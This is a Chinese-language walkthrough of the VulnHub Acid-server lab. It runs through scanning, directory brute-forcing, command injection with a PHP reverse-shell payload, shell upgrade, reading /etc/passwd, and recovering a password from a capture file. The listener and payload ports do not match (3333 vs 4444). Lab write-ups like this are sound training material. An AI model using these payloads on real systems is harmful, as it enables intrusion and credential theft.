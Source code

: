 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http

`$ sudo nmap -sP 172.16.71.0/24`

`$ sudo nmap -p1-65535 -sV 172.16.71.208`
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box

掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell

監聽3333port

`$ nc -l 3333`

用php反彈shell成功，最後payload:

`172.16.71.1; php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`
### Step 5
查找用戶，發現三個可疑帳號acid、saman、root

`$ cat /etc/passwd`

嘗試找尋用戶的可疑文件

`$ find -user acid 2>/dev/null`

發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
